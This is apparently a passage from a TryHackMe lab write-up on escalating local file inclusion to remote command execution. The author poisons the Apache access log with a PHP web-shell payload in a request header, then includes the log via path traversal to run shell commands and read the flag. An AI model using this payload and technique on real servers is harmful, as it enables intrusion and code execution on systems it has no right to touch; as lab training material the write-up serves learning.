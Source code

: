 THM says to use BurpSuite, i'm just going to capture the packet in the Console > Network tab on Firefox. Right click the request, then Edit & Resend. 

Our request should look like this
```
Host: 10.10.129.193 <?php system($_GET['lfi']);?>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

On send, we won't actually see any changes on the page, because the PHP will be compiled. 

But, we've basically made a GET parameter that will pass our requests to system via the following parameter.

And you'll notice that on executing code on the parameter `?page=...&lfi=...` that we can execute shell commands

```
http://10.10.129.193/lfi/lfi.php?page=../../../log/apache2/access.log&lfi=ls -la
```
The above returns our command at the bottom of the page:
```apache
....
....
drwxr-xr-x 2 www-data www-data 4096 Dec 23 2019 . 
drwxr-xr-x 4 root root 4096 Dec 23 2019 .. 
-rw-r--r-- 1 www-data www-data 161 May 25 2014 .htaccess -rw-r--r-- 1 www-data www-data 39 May 25 2014 contact.html -rw-r--r-- 1 www-data www-data 20 May 25 2014 creditcard -rw-r--r-- 1 www-data www-data 63 Dec 16 2019 home.html -rw-r--r-- 1 www-data www-data
....
....
```

### 6.

Next we can try running `uname -r`.

And we can view the system type: `4.15.0-72-generic`.

### 7. 

Now we can read the flag from the `lfi` user's directory. Note, we'll use our shell execution instead of direct LFI.

First running:
```
Desktop Documents Downloads Music Pictures Public Templates Videos flag.txt
```

And secondly reading from the flag.txt file while:
```
THM{[flag here]]}
```
### 8.

And that's it. From here was an check out more advanced [LFI information](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion).
